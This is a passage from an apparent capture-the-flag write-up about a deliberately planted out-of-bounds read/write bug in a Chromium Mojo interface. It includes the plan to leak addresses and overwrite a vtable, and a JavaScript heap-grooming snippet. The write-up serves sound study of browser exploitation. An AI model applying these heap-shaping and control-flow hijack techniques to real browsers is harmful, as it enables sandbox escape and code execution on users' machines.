 ```diff
+  Write(double value, uint32 offset) => ();
+};
```

As we can see in the patch file, the interface implements three functions to allow us interact with the browser process :

* `resizeVector` : This function allow us to allocate a double vector ( `std::vector<double> numbers_` ) in `CtfInterface`.
* `read` : This function allow us to read a double value from `numbers_`.
* `write` : This function will write a double value to `numbers_`.

The vulnerability is pretty obvious : the `read` and `write` function allow us to read/write a double value from/to a arbitrary offset of the `numbers_` vector, creating a OOB read/write situation.

Here our exploit plan is simple : use the OOB read to leak some address, and use the OOB write to corrupt the vtable of the `CtfInterfaceImpl` object and hijack the control flow.

First we'll have to arrange our heap layout. Our goal is to try place a `CtfInterfaceImpl` object right behind the `numbers_` vector, so later we can use OOB read/write on this `numbers_` to corrupt the `CtfInterfaceImpl` object.

After some trial and error, and lots of debugging with gdb, we were finally able to achieve this by using the following method:

* Create lots of `CtfInterfaceImpl` objects first. These objects will have high probability to be placed on a continuous heap memory.
* Free those `CtfInterfaceImpl` objects, this will create lots of free chunks ( size: 0x20 )
* Re-allocate those 0x20 free chunks by creating lots of `CtfInterfaceImpl` with a size 4 `numbers_` vector ( which will also allocate a 0x20 heap chunk ). The allocation sequence of `CtfInterfaceImpl` -> `size 4 numbers_` -> `CtfInterfaceImpl` -> `size 4 numbers_`... will probably results in a `CtfInterfaceImpl` object being placed right behind a size 4 `numbers_` vector. 

Here's the Javascript snippet:

```javascript
A = [];
B = [];
let i = 0;

// First allocate lots of CtfInterfaceImpl object
for (i = 0 ; i < 0x1000 ; i++) {
    A.push(null);
    A[i] = new blink.mojom.CtfInterfacePtr();
    Mojo.bindInterface(blink.mojom.CtfInterface.name, mojo.makeRequest(A[i]).handle);
}

// Free all the CtfInterfaceImpl, creating lots of free chunk ( size: 0x20 )
for (i = 0 ; i < 0x1000 ; i++) {
    A[i].ptr.reset();
}

// Re-allocate those 0x20 free chunks with the following allocation sequence: 
// CtfInterfaceImpl -> size 4 double vector -> CtfInterfaceImpl -> size 4 double vector...
for (i = 0 ; i < 0x1000 ; i++) {
    B.push(null);
    B[i] = new blink.mojom.CtfInterfacePtr();
    Mojo.bindInterface(blink.mojom.CtfInterface.name, mojo.makeRequest(B[i]).handle);
    B[i].resizeVector(0x4); // double vector with size 4 == allocate a 0x20 chunk
}

// Write value to B[i] for debug usage
for (i = 0 ; i < 0x1000 ; i++) {
    await B[i].write(itof(BigInt(i)), 0);
}
```
